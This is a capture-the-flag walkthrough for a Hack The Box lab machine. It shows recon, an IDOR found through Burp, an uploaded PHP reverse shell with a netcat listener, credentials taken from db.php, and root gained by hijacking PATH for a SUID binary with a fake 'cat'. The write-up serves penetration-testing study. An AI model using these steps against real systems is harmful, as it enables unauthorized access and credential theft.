 # 10.10.10.28

---

# nmap -sS -sC -sV -O -oX ./nmap/init.xml 10.10.10.28

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

---

##  gobuster -w ./../SecLists-2021.2/Discovery/Web-Content/quickhits.txt -u 10.10.10.28 -q -r dir

```
//index.phps (Status: 403)
//server-status/ (Status: 403)
//uploads/ (Status: 403)
```

---

## Found exploit for OpenSSH <7.7 Username Enumeration

++ [Exploit-db](https://www.exploit-db.com/exploits/45233)

Python code is in `exploit_ssh_7_6.py`.

Code seems to be broken. Even after fixing parantesis problems.

---

## Used Burp to examine the site.

Packages reveal `10.10.10.28/cdn-cgi/login`.

Login site has Username and Password requirements.

Simply by tring:

Username: admin

Pass: MEGACORP_4dm1n!!

---

## Sublinks:

Clients link exposes:
```
Client ID	Name	Email
1	Tafcz	john@tafcz.co.uk
```

Account link exposes:
```
Access ID	Name	Email
34322	admin	admin@megacorp.com
```

Uploads page is locked behind super admin rights.

---

## Attacking with Burp repeater

`id=1` variable is exposed through the URL. We can enumerate this.

After using Burp to attack, the id for super admin gets exposed.

Super Admin ID: 30

---

## Accessing account page of Super Admin

There is no authorazitation gate. Modifiying the payload on Burp to match Super Admin's ID reveals their account page:
```
Access ID	Name	Email
86575	super admin	superadmin@megacorp.com
```

Super Admin Access ID: 86575

Role: super admin

---

## Get reverse shell inside the system

Reverse shell with PHP from ++ [here.](https://github.com/pentestmonkey/php-reverse-shell)

Saved in .reverse-shell.php

Needs IP and Port supplied.

We upload this file and modify the payload again.

---

## Finding where it ended up

Python program [dirsearch](https://github.com/maurosoria/dirsearch) helps out here.

---

## python3 dirsearch.py -u http://10.10.10.28 -e php

```
[02:57:11] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
```

---

## curl http://10.10.10.28/uploads/reverse-shell.php

```
sudo nc -lvnp 443	//	To listen.
```

---

## After the reverse shell, we search for credentials.

Going back to the website's folders reveals `db.php`. Inside it are some credentials:
```
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

Username: robert

Pass: M3g4C0rpUs3r!

Using `id robert` reveals:
```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Using `su robert` and entering the pass enables us to take over `robert` user's identity.

---

## find / type f -group bugtracker 2>/dev/null

```
/usr/bin/bugtracker
```

---

## ls -la bugtracker

```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 bugtracker
```

It is owned by root. Let's run it.

---

## The reverse shell dropped, but we have credentials.

After `ssh robert@10.10.10.28`, we enter the same pass and we are in. This time officially.

---

## We use `strings` on bugtracker

```
...
cat /root/reports/
...
```

This is a relative path instead of absolute. We can abuse this.

---

## Creating a shell disguised as cat

```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

---

## We run bugtracker once more and supply id=1 as the bug id.

This runs cat on the local working directory. It was cat in it and it is run by root priviliges. But cat is actually a shell and now we have privileged shell.

---

Last thing I have done is to remove false cat file and `tmp` from PATH. Now I can cat out root.txt and this is it.
